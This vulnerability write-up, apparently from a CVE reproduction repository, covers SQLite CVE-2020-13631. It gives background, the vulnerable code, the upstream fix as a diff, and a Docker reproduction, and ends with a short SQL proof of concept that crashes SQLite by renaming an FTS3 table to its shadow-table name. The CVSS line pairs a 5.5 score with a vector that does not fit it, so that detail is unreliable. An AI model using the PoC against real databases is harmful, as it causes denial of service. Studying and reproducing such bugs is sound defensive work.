


# CVE-2020-13631 CWE-None SQLite stack overflow

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.
- **Shadow table:** In SQLite, these are real (non-virtual) auxiliary tables automatically generated by the virtual table module for actual storage and indexing functions, managed transparently to users. For an FTS (full-text search) virtual table (such as `mytable`), the SQLite module may create several shadow tables in the background: `mytable_content`, `mytable_segments`, `mytable_stat`, `mytable_docsize`, etc., used to store inverted indexes, segment directories, Internal data structures such as statistical information, these shadow tables are for use only within the module; users generally should not access or rename them directly.

## Vulnerability Mechanism
When handling `ALTER TABLE … RENAME`, SQLite does not include the "shadow table" namespace of virtual tables in its checks. Attackers can rename a virtual table to one of its shadow tables (such as the `table_segments`/`table_stat` generated by the FTS module), causing naming conflicts during kernel parsing/updating metadata and leading to repeated nested parsing or infinite loops. This can lead to denials of service (DoS) or data anomalies.

## Vulnerability Location
In the src/alter.c file, line 127 is used to execute ALTER TABLE ... During the RENAME operation, a conflict check is performed before renaming to determine whether the target name `zName` is already occupied by an existing table or index.

However, this code only checks whether the target database already has tables or indexes with the same name (`sqlite3FindTable`/`sqlite3FindIndex`), and does not check whether `zName` is exactly the shadow table name of the virtual table. Attackers can rename a virtual table to its own shadow table (such as FTS's `%_segments/%_stat/%_docsize`), causing internal confusion between table and shadow table parsing logic and triggering exceptions.

```c
  /* Check that a table or index named 'zName' does not already exist
  ** in database iDb. If so, this is an error.
  */
  if( sqlite3FindTable(db, zName, zDb) || sqlite3FindIndex(db, zName, zDb) ){
    sqlite3ErrorMsg(pParse, 
        "there is already another table or index with this name: %s", zName);
    goto exit_rename_table;
  }
```

## Remediation
In `ALTER TABLE ... RENAME`'s conflict check, a new rule is added: if the new name is a shadow table name of the virtual table, it is also treated as "existing conflict" and the error is immediately reported and blocked.

```diff
Index: src/alter.c
==================================================================
--- src/alter.c
+++ src/alter.c
@@ -121,11 +121,14 @@
   if( !zName ) goto exit_rename_table;
 
   /* Check that a table or index named 'zName' does not already exist
   ** in database iDb. If so, this is an error.
   */
-  if( sqlite3FindTable(db, zName, zDb) || sqlite3FindIndex(db, zName, zDb) ){
+  if( sqlite3FindTable(db, zName, zDb)
+   || sqlite3FindIndex(db, zName, zDb)
+   || sqlite3IsShadowTableOf(db, pTab, zName)
+  ){
     sqlite3ErrorMsg(pParse, 
         "there is already another table or index with this name: %s", zName);
     goto exit_rename_table;
   }
```

## Affected Versions
SQLite ≤ 3.32.0

## Environment Setup
Start the Docker environment with SQLite version 3.27.1, which enables ASAN memory detection at compile time

```txt
NIST:NVD   Base Score:5.5 MEDIUM   Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:sqlite:sqlite:3.27.1:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Enter the container command line, execute the PoC file, wait for a while, and see SQLite exit, and ASan detects stack overflow (`stack-overflow`), causing the process to crash (DoS).

```bash
docker exec -it sqlite-3.27.1 sqlite3 test_db ".read CVE-2020-13631-PoC.sql"
```



## PoC Analysis

```sql
-- Create an FTS3 virtual table named t0 with one integer column
CREATE VIRTUAL TABLE t0 USING fts3(col0 INTEGER);

-- Drop the shadow table t0_segments if it exists
DROP TABLE IF EXISTS t0_segments;

-- Rename the virtual table t0 to t0_segments
ALTER TABLE  t0  RENAME TO t0_segments;
```

First, FTS virtual tables (`CREATE VIRTUAL TABLE t0 USING fts3(...)`) are created—the FTS module associates several shadow/auxiliary tables (such as `..._segments`, `..._stat`, `..._docsize`, etc.).

Then try `ALTER TABLE t0 RENAME TO t0_segments`, that is, rename an FTS (Virtual Table `t0`) to its shadow table name (for example, `t0_segments`)

## References
https://nvd.nist.gov/vuln/detail/CVE-2020-13631

[several vulnerabilities affect third_party/sqlite version 3.30.1 [40052253\] - Chromium](https://issues.chromium.org/issues/40052253)

[SQLite: Check-in [eca0ba2cf4\]](https://sqlite.org/src/vinfo/eca0ba2cf4c0fdf7?diff=2&proof=989201934)
